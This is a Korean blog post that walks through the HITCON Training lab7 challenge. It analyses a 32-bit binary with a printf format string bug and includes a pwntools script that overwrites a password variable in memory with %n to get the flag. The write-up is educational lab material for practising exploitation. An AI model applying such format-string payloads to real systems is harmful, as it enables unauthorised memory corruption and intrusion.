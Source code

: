 ```yaml
---
layout: post
title: "[HITCON Training] lab7"
comments : true
category : War Game
---
```


# 문제
***
crack 바이너리의 checksec 결과는 다음과 같다.
```
CANARY    : ENABLED
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
gdb-peda$ 
```

crack 바이너리의 file 명령어 결과는 다음과 같다.
```
crack: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=66ea82f29539f0da4643036bca734fcd9b4791f9, not stripped
```

바이너리 코드
```
int __cdecl main(int argc, const char **argv, const char **envp)
{
...
...
  v3 = time(0);
  srand(v3);
  fd = open("/dev/urandom", 0);
  read(fd, &password, 4u);
  printf("What your name ? ");
  read(0, &buf, 0x63u);
  printf("Hello ,");
  printf(&buf);
  printf("Your password :");
  read(0, &nptr, 0xFu);
  if ( atoi(&nptr) == password )
  {
    puts("Congrt!!");
    system("cat /home/crack/flag");
  }
  else
  {
    puts("Goodbyte");
  }
  return 0;
}
```

=> /dev/urandom에서 읽어온 4byte 랜덤값이 내 입력값과 같으면 flag를 읽어준다. 이 랜덤값을 알아내는 것은 불가능하다.
하지만 그 전에 buf의 내용을 printf 하는 곳에서 format string bug가 존재한다. 이를 이용해서 bss 영역에 존재하는 password 변수에 저장되어 있는 값을 덮어쓸 수 있다.

## exploit 방법

printf(&buf)를 하는 시점에서 esp의 위치와 스택을 살펴보았다. 

1. 스택을 보면 read의 인자로 push 되었던 password의 주소는 다른 값으로 덮어 쓰여져서 보이지 않는다. 

2. 이 때 esp 값은 0xffffcf80 이고 buf의 주소는 0xffffcfa8이다. 따라서 buf에 &password+"%08x"*10을 저장하면 마지막에 password의 주소가 출력되는 것을 확인할 수 있다.

따라서 buf에 &password + "%08x" * 8 + "%32d" + "%n" 을 하면 password에 100을 넣을 수 있다.

# 풀이 
***
```
#!/usr/bin/python

from pwn import *

file_path="/home/sungyun/HITCON-Training/LAB/lab7/crack"

p=process(file_path)

p.recvuntil("name ? ")

password=0x804a048

pay=p32(password)
pay+="%08x"*8+"%32d"+"%n"

p.send(pay)

p.recvuntil("Hello ,")
p.recvuntil("password :")

p.send(str(100))

p.recvuntil("!!\n")

print p.recv()
```
# 알게 된 것
***

1. ```int a=100;```
   ```printf("%2d",a);```
이렇게 하면 100이 출력된다. 그래서 위의 문제에서 %6d의 결과로 6개의 글자가 출력되지 않고 더 긴 값이 출력되었다. 
2. %n을 통해 덮어쓸 값이 매우 크면 printf를 통해서 매우 긴 문자열을 출력해야 한다. 이런 경우에 문자열이 너무 길어서 출력을 못하는 경우가 있는데 이럴 때는 %hn을 이용해야 한다. 

3. %08x를 하면 공백 대신에 0이 채워지는데 사실 공백도 출력 개수에 포함되기 때문에 %8x를 써도 된다. 하지만 %08x를 하면 4byte이기 때문에 메모리 offset을 맞춰주기 편한듯?

